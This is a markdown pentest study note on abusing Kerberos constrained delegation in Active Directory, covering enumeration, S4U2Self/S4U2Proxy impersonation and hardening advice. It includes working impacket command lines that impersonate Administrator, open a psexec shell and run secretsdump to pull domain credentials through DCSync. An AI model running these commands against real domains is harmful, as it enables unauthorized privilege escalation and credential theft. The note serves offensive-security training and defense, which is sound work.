

# 09 - Constrained Delegation Abuse

## 1. Executive Summary

Constrained delegation lets a service impersonate users **to a specific list of services** (`msDS-AllowedToDelegateTo`). If you compromise an account configured with it (its password/hash or TGT), you can use **S4U2Self + S4U2Proxy** to obtain a service ticket **as any user** (e.g. `Administrator`) to the allowed SPNs — instant privileged access to those services. Two gotchas attackers exploit: with **protocol transition** (`TRUSTED_TO_AUTH_FOR_DELEGATION`) you don't even need the user to authenticate first, and the **SPN's service class is not enforced**, so `cifs/host` can be swapped for `host/`, `http/`, `ldap/` etc. → broader access than intended (including `ldap/DC` → DCSync).

## 2. Concept Overview

`msDS-AllowedToDelegateTo` on account A lists target SPNs A may delegate to. **S4U2Self**: A requests a forwardable ticket to itself as user U (works freely if `TRUSTED_TO_AUTH_FOR_DELEGATION`/protocol transition is set; otherwise the ticket may be non-forwardable). **S4U2Proxy**: A presents that to get a ticket for U to a listed SPN. Because only the *host* part is validated, you can request a different service class on the same host (the "alternate service" trick).

## 3. Enumeration

```bash
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
Get-DomainComputer -TrustedToAuth
crackmapexec ldap <dc> -u user -p pw --trusted-for-delegation
# find accounts with msDS-AllowedToDelegateTo populated
```

## 4. Exploitation

```bash
# Have the delegating account's hash/password (e.g. websvc allowed to delegate to cifs/fileserver)
getST.py -spn cifs/fileserver.domain -impersonate Administrator \
  -dc-ip <dc> 'domain/websvc:Passw0rd'          # or -hashes :<nt>
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass fileserver.domain

# Alternate-service trick: allowed to time/host? request ldap/ for DCSync-capable access
getST.py -spn cifs/dc01.domain -altservice ldap -impersonate Administrator -dc-ip <dc> 'domain/svc$:...'
secretsdump.py -k -no-pass domain/Administrator@dc01.domain -just-dc

# No protocol transition? impersonate a non-"sensitive" user; or chain via RBCD instead.
```

## 5. Mermaid Attack Flow



## 6. Persistence
- Hold the delegating account's creds → re-impersonate to the allowed SPNs anytime.

## 7. Post-Exploitation / Data Access
- Privileged access to the allowed services (file servers, DBs, and—via alternate service—often DCs).

## 8. Defense & Hardening
1. Minimize constrained delegation; avoid **protocol transition** (`TRUSTED_TO_AUTH_FOR_DELEGATION`) unless required; scope `msDS-AllowedToDelegateTo` tightly.
2. Protect delegating service accounts (strong/managed passwords — see [[11 - Reading GMSA and DMSA Passwords]]); mark sensitive users "cannot be delegated" / Protected Users.
3. Monitor S4U2Proxy usage + changes to delegation attributes; alert on tickets to `ldap/DC` from service accounts.

## 9. Chaining & Related Notes
- Alternate-service → **[[15 - DCSync Attack]]** (A-36). Account creds often from **[[04 - Kerberoasting]]** (A-36) or gMSA reads ([[11 - Reading GMSA and DMSA Passwords]]).
- Delegation siblings: **[[07 - Resource-Based Constrained Delegation Abuse]]**, **[[08 - Unconstrained Delegation Abuse]]**.

## 10. Tools
`getST.py` (impacket, `-impersonate`/`-altservice`), `Rubeus` (s4u), `bloodhound`, `crackmapexec`, `secretsdump.py`.
